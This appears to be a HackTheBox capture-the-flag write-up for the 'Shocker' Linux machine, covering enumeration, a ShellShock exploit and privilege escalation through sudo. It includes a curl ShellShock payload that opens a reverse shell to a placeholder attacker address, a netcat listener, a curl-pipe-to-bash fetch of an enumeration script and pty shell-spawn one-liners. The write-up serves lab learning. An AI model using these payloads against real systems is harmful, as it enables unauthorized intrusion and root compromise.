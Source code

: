 # Shocker
* Link: https://app.hackthebox.com/machines/Shocker
* Type: Linux
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA OUTPUTDIR IPADDRESS* - Nmap scan.
* *nc -nlvp 4444* - Starts a listener.
* *gobuster dir -f /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u IPADDRESS/* - *-f* is used to bypass some security control where when adding */* after directory name it gets treated as a file.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi*
* curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/MYIP/MYPORT 0>&1' http://TARGETIP/cgi-bin/user.sh - ShellShock Exploits
* *locate nse | grep shellshock* - finds nmap scrip with the name shellshock.
* *nmap -sV -pPORTNUMBER --script SCRIPTNAME --script-args ARG1=PARAMTER1 ARG2=PARAMETER2 IP ADDRESS* - Uses the spcified nmap script.
* In Linux:
  - *sudo -l* - Provide you with what you can run as a user with root privileges.
  - */bin/bash -c COMMAND* - is used to run commands
  - *python3 -c 'import pty;pty.spawn("/bin/bash")'* / *python -c 'import pty;pty.spawn("/bin/bash")'* - is used to spwan a tty.
  - *curl IP:PORT/LinEnum.sh | bash* to get and run linux enum tool.


## Steps
* nmap to enumerate the host.
* Check exploits for the open ports and technologies. (None found)
* Fuzz the directories. (Nothing found with normal gobuster command)
* Use *-f* with gobuster.
* Fuzz */cgi-bin/* directory
* Find ShellShock Exploit.
* Use the exploit to gain initial access.
* Use *sudo -l* to know what you can run as root.
* Start a reverse shell using *perl*.
* Get root.


## Why is the machine vulnerable
* The Machine is not patched/updated.
* Security misconfiguration (Shouldn't be able to access cgi-bin but can access files under the directory.)

## Important Lessons
* It seems that if we don’t add the “/” at the end of the URL, the server is interpreting it as a file instead of a directory. (i.e. *IP/cgi-bin* doesn't work but *IP/cgi-bin/* Works fine) (Use *-f* flag with gobuster to do it automatically)
* If you run something with root privileges the thing ran will have root privileges (i.e. run a reverse shell as root to get root.)
* Sometimes even if you can't access a specific directory you can access files in that directory.
* *sudo -l* - Provide you with what you can run as a user with root privileges.
* The version of a package (i.e. Apache) can tell you what version of Linux is running as it's the same version for the distribution.
